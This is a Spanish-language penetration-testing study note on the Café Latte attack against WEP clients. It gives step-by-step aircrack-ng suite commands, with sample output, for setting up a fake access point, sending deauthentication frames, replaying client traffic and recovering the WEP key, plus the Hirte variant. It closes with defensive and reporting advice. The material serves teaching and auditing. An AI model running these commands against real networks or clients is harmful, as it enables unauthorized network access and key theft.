

---
tags:
  - Wi-Fi/WEP
  - Pentesting/Explotacion
Descripción: "Recuperar la clave WEP de un cliente lejos de su red montando un AP falso, sin que el AP legítimo esté presente"
Fecha de actualización: 2026-08-01
Nota previa: "[[07 - KoreK ChopChop]]"
Nota siguiente: "[[09 - Atacar un AP WEP sin clientes]]"
Area: "[[WEP.base|WEP]]"
---
---

<mark style="background: #ADCCFFA6;">El [ataque Café Latte](https://www.aircrack-ng.org/doku.php?id=cafe-latte) cambia el objetivo: en lugar del AP, ataca al **cliente**</mark>. Lo presentó Vivek Ramachandran en 2007 y su nombre lo dice todo — se puede recuperar la clave WEP de una red corporativa desde una cafetería, con el portátil de la víctima delante y el AP legítimo a kilómetros.

# La idea

Un cliente configurado para una red WEP arrastra la clave en su perfil. Cuando se asocia a algo que parece esa red, **empieza a emitir tráfico cifrado con ella** — típicamente peticiones ARP gratuitas para reclamar su IP anterior.

<mark style="background: #FFB86CA6;">Ese tráfico es exactamente el material que hace falta</mark>: se reinyecta al propio cliente, que responde con nuevos IVs, y con suficientes IVs cae la clave. El AP legítimo nunca participa.



Es un **evil twin aplicado a WEP**, y la diferencia con los ataques anteriores es sustancial:

| | ARP Replay · Fragmentación · ChopChop | Café Latte |
| - | ------------------------------------- | ---------- |
| Objetivo | El AP | **El cliente** |
| Requiere el AP presente | Sí | **No** |
| Requiere tráfico en la red | Sí | No |
| Dónde se ejecuta | En alcance de la red | **En cualquier sitio** |

# Ejecución

Cuatro terminales. La primera captura:

```shell-session
$ sudo airodump-ng wlan0mon -c 1 -w WEP

 BSSID              PWR Beacons  #Data  #/s  CH  ENC  CIPHER AUTH ESSID
 B2:D1:AC:E1:21:D1  -29    5011   8132   78   1  WEP  WEP    OPN  HackTheWifi

 BSSID              STATION            PWR  Frames  Probes
 B2:D1:AC:E1:21:D1  B6:1F:98:CB:10:78  -29    9404  HackTheWifi
```

La segunda pone a `aireplay-ng` en modo Café Latte, escuchando y reinyectando al cliente:

```shell-session
$ sudo aireplay-ng -6 -D -b B2:D1:AC:E1:21:D1 -h B6:1F:98:CB:10:78 wlan0mon

Saving ARP requests in replay_arp-0806-094956.cap
Read 99 packets (got 0 ARP requests), sent 0 packets...
```

`-6` es el modo Café Latte; `-D` desactiva la detección de AP, necesaria porque el AP legítimo puede no estar presente.

La tercera levanta el AP falso con `airbase-ng`:

```shell-session
$ sudo airbase-ng -c 1 -a B2:D1:AC:E1:21:D1 -e "HackTheWifi" -W 1 -L wlan0mon

Created tap interface at0
Access Point with BSSID B2:D1:AC:E1:21:D1 started.
Starting Caffe-Latte attack against B6:1F:98:CB:10:78 at 100 pps.
Client B6:1F:98:CB:10:78 associated (WEP) to ESSID: "HackTheWifi"
```

| Opción | Función |
| ------ | ------- |
| `-a` | BSSID a suplantar |
| `-e` | ESSID |
| `-c` | Canal |
| `-W 1` | Anunciar WEP |
| `-L` | **Modo Café Latte integrado** |

<mark style="background: #FFB8EBA6;">`airbase-ng -L` implementa el ataque por sí solo</mark>, así que en muchos casos basta con esta terminal y la de captura. La combinación con `aireplay-ng -6` cubre los casos en que el cliente responde de forma distinta.

La cuarta desautentica al cliente para que abandone el AP legítimo, si está presente:

```shell-session
$ sudo aireplay-ng -0 10 -a B2:D1:AC:E1:21:D1 -c B6:1F:98:CB:10:78 wlan0mon
```

Y al acumular IVs:

```shell-session
$ aircrack-ng -b B2:D1:AC:E1:21:D1 WEP-01.cap
Got 97822 out of 95000 IVs
Starting PTW attack with 97822 IVs.
KEY FOUND! [ 33:44:55:22:11 ]
```

> [!warning]+ Si no salen paquetes ARP
> El propio módulo recomienda relanzar la desautenticación e **inmediatamente después** el `airbase-ng`. El motivo es de temporización: el cliente sólo emite el ARP gratuito en los primeros instantes tras asociarse, así que el AP falso tiene que estar levantado y escuchando **antes** de que la víctima reconecte. Si `airbase-ng` arranca tarde, se pierde la ventana.

# Por qué el cliente colabora

Es el punto que hay que entender, porque explica toda la familia de ataques al cliente:

- **El cliente no autentica al AP.** WEP sólo verifica en un sentido — y de forma pésima. Cualquiera que anuncie el SSID correcto es aceptado.
- **El perfil guardado conserva la clave** indefinidamente, aunque el dispositivo esté a mil kilómetros de la red.
- **El cliente habla primero.** Al asociarse emite ARP para recuperar su configuración de red anterior, cifrado con la clave que se quiere obtener.

<mark style="background: #8000E1A6;">La consecuencia general: **un dispositivo con un perfil de red guardado es un secreto ambulante**</mark>. El mismo razonamiento sostiene KARMA, MANA y el evil twin contra WPA2-Enterprise: en todos, el cliente entrega material criptográfico a quien suplante una red que conoce.

# La variante Hirte

`aireplay-ng -7` (*cfrag*) es la evolución del ataque: combina Café Latte con fragmentación contra el cliente, lo que permite recuperar la clave a partir de **cualquier** paquete que el cliente emita, no sólo peticiones ARP. Es más rápido y más fiable, y merece probarse cuando Café Latte no arranca.

```shell-session
$ sudo aireplay-ng -7 -b B2:D1:AC:E1:21:D1 -h B6:1F:98:CB:10:78 wlan0mon
```

# Implicaciones defensivas

Este ataque cambia lo que hay que auditar y lo que hay que recomendar:

- **El perímetro no protege.** La red puede estar perfectamente aislada y aun así comprometerse desde fuera, a través de un portátil en un aeropuerto.
- **Eliminar los perfiles obsoletos** de los dispositivos corporativos es una medida real, no cosmética. Un perfil WEP de una red retirada hace cinco años sigue siendo explotable hoy.
- **Configurar los clientes para que no se asocien automáticamente** a redes conocidas, y desactivar la conexión a redes ocultas — [[07 - Descubrimiento de SSID ocultos]].
- **Validar el servidor** en las redes 802.1X. Es la única familia de Wi-Fi donde el cliente puede verificar con quién habla — [[06 - Conexión a redes Wi-Fi desde consola]].

> [!important]+ Para el informe
> El hallazgo no es "la red usa WEP". Es: **los portátiles corporativos conservan perfiles WEP y entregan la clave a cualquier AP que suplante ese SSID, en cualquier ubicación geográfica**. Eleva el hallazgo de un problema de configuración del AP a un problema de gestión del parque de clientes, y suele ser el que consigue que se actúe.

El escenario opuesto —un AP sin ningún cliente— es [[09 - Atacar un AP WEP sin clientes]].
